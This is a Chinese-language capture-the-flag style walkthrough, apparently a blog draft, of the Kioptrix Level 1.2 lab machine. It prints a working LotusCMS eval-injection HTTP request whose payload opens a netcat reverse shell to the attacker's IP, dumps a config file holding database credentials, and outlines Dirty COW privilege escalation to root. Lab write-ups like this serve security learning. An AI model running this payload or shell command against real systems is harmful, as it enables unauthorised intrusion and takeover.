 
+++
title = 'KIOPTRIX LEVEL 1.2 (#3)'
date = '2023-12-07T16:08:29+08:00'
draft = true
+++
![image-20230208012456505](C:\Users\root\AppData\Roaming\Typora\typora-user-images\image-20230208012456505.png)

安装好，虚拟机使用桥接模式，和物理机划分到同一个网段。

kali运行arp-scan -l 扫描同网络上的所有主机，确定靶机的ip。端口探测后生成报告![image-20230208012826498](C:\Users\root\AppData\Roaming\Typora\typora-user-images\image-20230208012826498.png)

查看80端口web服务![image-20230208012853777](C:\Users\root\AppData\Roaming\Typora\typora-user-images\image-20230208012853777.png)

![image-20230208012927828](C:\Users\root\AppData\Roaming\Typora\typora-user-images\image-20230208012927828.png)

使用的是lotuscms，搜索了历史版本的漏洞，有一个公开了的RCE，payload如下

```
POST /index.php HTTP/1.1
Host: 192.168.3.115
Content-Length: 0
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

page=index');${system('nc -e /bin/sh 192.168.3.201 12345')};#"
```

漏洞成因是代码里使用了eval函数，后续的system函数会执行恶意的命令，从eval函数的代码执行到远程命令执行

读取gconfig.php

```
<?php
        error_reporting(0);
        /*
                A sample Gallarific configuration file. You should edit
                the installer details below and save this file as gconfig.php
                Do not modify anything else if you don't know what it is.
        */

        // Installer Details -----------------------------------------------

        // Enter the full HTTP path to your Gallarific folder below,
        // such as http://www.yoursite.com/gallery
        // Do NOT include a trailing forward slash

        $GLOBALS["gallarific_path"] = "http://kioptrix3.com/gallery";

        $GLOBALS["gallarific_mysql_server"] = "localhost";
        $GLOBALS["gallarific_mysql_database"] = "gallery";
        $GLOBALS["gallarific_mysql_username"] = "root";
        $GLOBALS["gallarific_mysql_password"] = "fuckeyou";

        // Setting Details -------------------------------------------------

if(!$g_mysql_c = @mysql_connect($GLOBALS["gallarific_mysql_server"], $GLOBALS["gallarific_mysql_username"], $GLOBALS["gallarific_mysql_password"])) {
                echo("A connection to the database couldn't be established: " . mysql_error());
                die();
}else {
        if(!$g_mysql_d = @mysql_select_db($GLOBALS["gallarific_mysql_database"], $g_mysql_c)) {
                echo("The Gallarific database couldn't be opened: " . mysql_error());
                die();
        }else {
                $settings=mysql_query("select * from gallarific_settings");
                if(mysql_num_rows($settings)!=0){
                        while($data=mysql_fetch_array($settings)){
                                $GLOBALS["{$data['settings_name']}"]=$data['settings_value'];
                        }
                }

        }
}

?>

```

拿到shell后，wget下载脏牛提权

![image-20230208104049307](C:\Users\root\AppData\Roaming\Typora\typora-user-images\image-20230208104049307.png)

![image-20230208104113650](C:\Users\root\AppData\Roaming\Typora\typora-user-images\image-20230208104113650.png)

成功添加用户，并添加到root组

ssh登录。用脏牛提权生成的账号firefart登录，获取到root权限，通关

